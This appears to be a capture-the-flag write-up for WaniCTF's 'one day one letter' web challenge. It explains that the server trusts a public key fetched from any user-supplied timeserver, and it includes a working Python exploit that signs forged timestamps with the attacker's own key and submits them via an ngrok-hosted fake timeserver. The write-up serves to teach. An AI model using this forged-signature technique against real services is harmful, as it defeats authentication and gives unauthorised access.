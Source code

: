 It will get the public key generated at the "timeserver" and verify if the timestamp is right.

```py
def get_pubkey_of_timeserver(timeserver: str):
    req = Request(urljoin('https://' + timeserver, 'pubkey'))
    with urlopen(req) as res:
        key_text = res.read().decode('utf-8')
        return ECC.import_key(key_text)
```

However we can pass another timeserver without filters allowing us to host a timeserver knowing the privatekey and sign forged timestamps.
Bellow is the script i made:

```py
import requests
import json
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
from urllib.request import Request, urlopen
from urllib.parse import urljoin
from datetime import datetime, timedelta
import time

own_timeserver = "http://localhost:8000"
end_privatekey = "privatekey"
server = "https://web-one-day-one-letter-lz56g6.wanictf.org/"

def get_privatekey_of_timeserver():
    req = Request(urljoin(own_timeserver, end_privatekey))
    with urlopen(req) as res:
        key_text = res.read().decode('utf-8')
        return ECC.import_key(key_text)


privatekey = get_privatekey_of_timeserver() # Get private key

flag = ""
day = 0
while flag == "" or "?" in flag:

    # Generate time
    current_date = datetime.now()
    future_date = current_date + timedelta(days=day)
    unix_timestamp = int(time.mktime(future_date.timetuple()))
    encoded_timestamp = str(unix_timestamp).encode('utf-8')
    timestamp = encoded_timestamp
    
    #Sign timestamp with known private key
    h = SHA256.new(timestamp)
    signer = DSS.new(privatekey, 'fips-186-3')
    signature = signer.sign(h)

    #Send request to the chal server
    data = {"timestamp": timestamp,
            "signature": signature,
            "timeserver":"boar-definite-imp.ngrok-free.app"}
    
    req = requests.post(server, data=data)
    print(req.text)
    
    # TODO: Get flag letters and add to the flag variable


```